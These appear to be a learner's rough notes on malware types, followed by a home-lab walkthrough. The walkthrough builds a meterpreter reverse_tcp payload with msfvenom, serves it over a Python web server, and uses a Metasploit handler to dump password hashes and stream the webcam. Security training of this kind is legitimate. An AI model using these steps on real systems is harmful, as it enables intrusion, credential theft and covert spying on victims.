

Mal - malicious

Diff between virus and worm

# Types of malware

# Virus
# virus needs human interaction
Can create multiple files created and delete important credentials and files

# Worm 
# doesn’t need human interaction 
Self-replicating
As soon it gets to the machine its starts itself

Slows down services
Like shows down your pc and internet
It can spread from internet network to internet
If its connected to your network

Mainly slows down your pc

# Keylogger 
Stocks yours devices keys

# Spyware 

# Trojan horse

# Remote access trojan
Creates backdoor access
Stays permanent even if host is switchjed off

# Ransomware
Encrypts all the data in victim pc

Wrappers
Rootkit
Attacks on harwares

Botnet
Adware

Different ways how malware can get into your system

Free softwares - they do reverse tcp
Untrusted sites
File sharing services
Removable media
Attachments
Email communicarion
Not usinf firewall and anti virus

Msf venom
Make payload
Encode payload

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.xx.xx LPORT=5555 -f exe -o winpayload.exe

Windows - for windows
Meterpreter - turns on listenign port , after human intervention it starts
Rveerse_tcp - to protect from firewall , since it’s a connection going from inside the host
LHOST - your own (attacker) ip
LPORT - to make ocnnectivity on this port , this is a dynamic port , see range of dynamic
-f : format for windows i.e. exe
-f : for windows i.e. apk
-f : for linux - .elf (iwthoyt .)
-0 : output , what location to save the payload here , winpayload.exe

Ls

Turn on python sevrer on attacker amchine
On linux here

Python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (<http://0.0.0.0:8000/>) …

Shows port 8000 is used here

Open windows host
And turn of firewall
Real time protection off

On windows
Open chrome
Type
192.168. self ip :8000
Download winpayload

On linux see that connection is built
Msfconsole
Use exploit/multi/handler
Show options
Set payload windows/,meterpreter/reverser_tcp
Set payload windows/meterpreter /rverse_tcp
Set LHOST your linux ip
Set LPORT 5555
Show options

Run
Meterpreter is now on listenign mode

On windows
Go and open file

On linux
Meterpreter starts

Help
Hashdumps : take any passowrds stored in sysrem
Screenshot

Open anthrr terminal
Ls
Display xxxxx.jpeg
Open xxxxx.jpeg

On meter preter terminal
Use shutdowncommand
Shutdown

Server like python next sevrer
Updog -p 80

On windows
Turn off firewall

On linux
Python3 -m http.server

192.168.xx.xx:8000
Meterpreter starts
Set all in multi handler
Set paylof
All steps like before

Run

Webcam_stream

